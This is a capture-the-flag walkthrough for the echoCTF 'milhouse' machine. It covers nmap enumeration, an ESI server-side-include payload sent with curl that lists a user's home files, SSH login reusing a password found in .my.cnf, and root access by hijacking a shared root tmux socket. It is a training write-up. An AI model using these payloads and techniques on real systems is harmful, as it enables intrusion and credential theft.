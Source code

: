 ```yaml
---
layout: page
title: milhouse
---
```




[milhouse](https://echoctf.red/target/16)

![](/assets/img/milhouse.png)

machine description:

Milhouse, a side character included into the infrastructure. Although he's closest relative in our network is barney, they have nothing to do with each other.

I mean Milhouse was born on August 2001 and Barney sometime around 1993

---

### Enumartion


```
nmap -sC -sV -p- 10.0.200.29  

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
| ssh-hostkey: 
|   2048 c8:1f:4f:6e:d0:8e:77:2a:76:9a:e9:59:f8:a0:d5:a3 (RSA)
|   256 e9:3a:ac:63:e3:9c:11:9e:60:6d:29:0c:a9:95:2f:33 (ECDSA)
|_  256 52:9e:9d:6d:d7:bf:07:32:85:87:95:89:a4:be:ce:b1 (ED25519)

80/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

### vulnerability

Node.js Express framework


### Exploit 

from hint i understood it server side include.

[Node.js Express framework](https://haboob.sa/ctf/nullcon-2019/blog.html)

after some playing with payloads i found sveral errors that lead me to try: 

```
curl -XGET "http://10.0.200.29/?=%3Cesi:include%20src=%22http://127.0.0.1/%22%20/%3E"

Hello from Express! Request:/?=<!DOCTYPE html PUBLIC "-//W3C//DTD HTML 3.2 Final//EN"><html>
<title>Directory listing for /</title>
<body>
<h2>Directory listing for /</h2>
<hr>
<ul>
<li><a href="%2520ETSCTF">%20ETSCTF</a>
<li><a href=".bash_history">.bash_history</a>
<li><a href=".bash_logout">.bash_logout</a>
<li><a href=".bashrc">.bashrc</a>
<li><a href=".my.cnf">.my.cnf</a>
<li><a href=".profile">.profile</a>
</ul>
<hr>
</body>
</html>

```

so now we can read files from users folder.

### Rce

reading my.cnf file gives us information for user,pass,home folder and some history commands. 
try user and pass from my.cnf  the pass didnt worked for login via ssh. 
i noticed that the user is ETSCTF, so i tried same pass and im in. 

```
ssh ETSCTF@10.0.200.29                                                                                                                   130 ⨯
ETSCTF@10.0.200.29's password: 
Linux milhouse.echocity-f.com 4.19.0-20-amd64 #1 SMP Debian 4.19.235-1 (2022-03-17) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
ETSCTF@milhouse:~$ 
ETSCTF@milhouse:~$ 

```


### Privilege escalation

sudo -l - user is not in souders file.
ps -aux | grep root 

```

root        50  0.0  0.0  26624  2816 ?        Ss   06:31   0:00 tmux new -d -s 0 cd /root; python /app/server.py 127.0.0.1:80
root        51  0.0  0.0   9492  2484 pts/1    Ss+  06:31   0:00  _ bash -c cd /root; python /app/server.py 127.0.0.1:80
root        53  0.0  0.3  38444 12756 pts/1    S+   06:31   0:00      _ python /app/server.py 127.0.0.1:80
root        56  0.0  0.0  26624  2680 ?        Ss   06:31   0:00 tmux -S /tmp/tmux-shared new -d -s 0

```

tmux

what is tumux> 

[tmux man](https://man7.org/linux/man-pages/man1/tmux.1.html)

DESCRIPTION:

tmux is a terminal multiplexer: it enables a number of terminals to
be created, accessed, and controlled from a single screen.  
tmuxmay be detached from a screen and continue running in the
background, then later reattached.

lets try to find how can i connect to tmux terminal. 

[tmux_priv](https://int0x33.medium.com/day-69-hijacking-tmux-sessions-2-priv-esc-f05893c4ded0l)
after understandng the vuln, i found in /tmp folder:
```
ETSCTF@milhouse:/tmp$ ls -la tmux-shared
srw-rw---- 1 root nogroup 0 Jul 11 06:31 tmux-shared
ETSCTF@milhouse:/tmp$ 

```
lets try to connect:

*tmux -S tmux-shared*

and we got root. 

*root@milhouse:/tmp#*
